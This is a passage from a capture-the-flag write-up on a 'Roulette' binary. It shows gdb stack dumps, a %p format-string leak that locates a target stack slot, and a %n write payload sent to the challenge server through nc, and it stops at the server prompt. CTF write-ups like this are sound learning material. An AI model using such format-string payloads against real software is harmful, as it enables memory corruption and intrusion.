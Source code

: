 ```asm
=> 0x55555555558e <main+925>:	cmp    eax,0x989680
   0x555555555593 <main+930>:	jle    0x5555555555c3 <main+978>
   0x555555555595 <main+932>:	mov    rax,QWORD PTR [rbp-0x20]
   0x555555555599 <main+936>:	mov    rdi,rax
   0x55555555559c <main+939>:	call   0x555555555030 <free@plt>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdee0 --> 0x7fffffffdf48 --> 0x7fffffffe018 --> 0x7fffffffe34e ("/media/shared/ctf/matrix/Rouletteroulette.bin")
0008| 0x7fffffffdee8 --> 0x3151900f0b5ff 
0016| 0x7fffffffdef0 --> 0x1 
0024| 0x7fffffffdef8 --> 0x355555635 
0032| 0x7fffffffdf00 --> 0x60455753 ('SWE`')
0040| 0x7fffffffdf08 --> 0x0 
0048| 0x7fffffffdf10 --> 0x555555559260 --> 0x1  # <---------
0056| 0x7fffffffdf18 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x000055555555558e in main ()
gdb-peda$ 

```

We can see that:
```asm
0048| 0x7fffffffdf10 --> 0x555555559260 --> 0x1
```
pointing to the value that contains 0x1 (which is local_28 that we need to change), 0048 => locate at place 12nd on stack.

Lets try format string vuln ```%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p``` to validate it:
```asm
gdb-peda$ r
Starting program: /home/evyatar/Desktop/matrix/roulette.bin 
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
0x7ffff7dcf8c0.(nil).0xb40.0x7ffff7dcf8c0.0x7ffff7fe04c0.0x7fffffffdf48.0x3151900f0b5ff.0x1.0x2a55555635.0x6045683d.(nil).0x555555559260.(nil).0x555555559aa0

```

yey! :) the 12nd place contains ```0x555555559260```, Now we need to change this value by injecting different value to the stack as described here ([(reference)](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)).

Now I am just trying to use this payload:
```%10000001c%12$n``` which write 10000001 to the 12nd place on the stack against the server using ```nc```.

```console
┌─[evyatar@parrot]─[/media/shared/ctf/matrix/Roulette]
└──╼ $ nc challenges.ctfd.io 30426
Welcome to Casino Royal
This is a roulette game
You have 1 point to start with.
How many games would you like to play(Up to 2)?
1
Choose your bet (1-36)
202009
Please enter your command (it will be printed to make sure you entered the right one):
```